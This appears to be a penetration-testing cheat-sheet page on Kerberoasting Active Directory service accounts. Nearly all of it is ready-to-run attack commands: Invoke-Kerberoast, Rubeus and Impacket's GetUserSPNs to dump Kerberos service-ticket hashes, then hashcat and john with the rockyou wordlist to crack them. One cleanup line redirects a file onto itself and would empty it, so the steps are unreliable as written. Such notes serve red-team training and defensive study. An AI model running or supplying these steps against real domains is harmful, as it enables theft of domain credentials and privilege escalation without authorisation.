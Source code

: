 ##### Requirements
Access to domain (any), but Doman Admin is strongly preferred.

### How it works


### Enumeration with Invoke-Kerberoast (Powershell Empire)
```
. .\invoke-kerberoast.ps1
Invoke-Kerberoast -OutputFormat hashcat |fl                // Copy this output to a file named "hash1"
sed -r 's/\s+//g' hash1 > hash.txt                         // removes the spaces
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt  // cracks the hash
```
##### Enumeration with Rubeus
To dump the Kerberos hash of all kerberoastable users, use:
```
./rubeus.exe kerberoast /nowrap /format:hashcat
```

##### Enumeration with Impacket
Impacket can dump all hashes remotely, provided a valid username and password:
```
sudo python3 /usr/share/doc/python3-impacket/examples/GetUserSPNs.py DOMAIN_NAME/MACHINE_NAME:PASSWORD -dc-ip MACHINE_IP -request
GetUserSPNs.py DOMAIN_NAME/MACHINE_NAME:PASSWORD -dc-ip MACHINE_IP -request     // usually in PATH
```

##### Hash-cracking
Copy the hash into a file, then use:
```
cat hash.txt | tr -d " \t\n\r" > hash.txt  // Remove the whitespaces
hashcat -m 13100 -a 0 hash.txt /usr/share/wordlists/rockyou.txt  // Crack the hash
```
Note: Most hashes are not crackable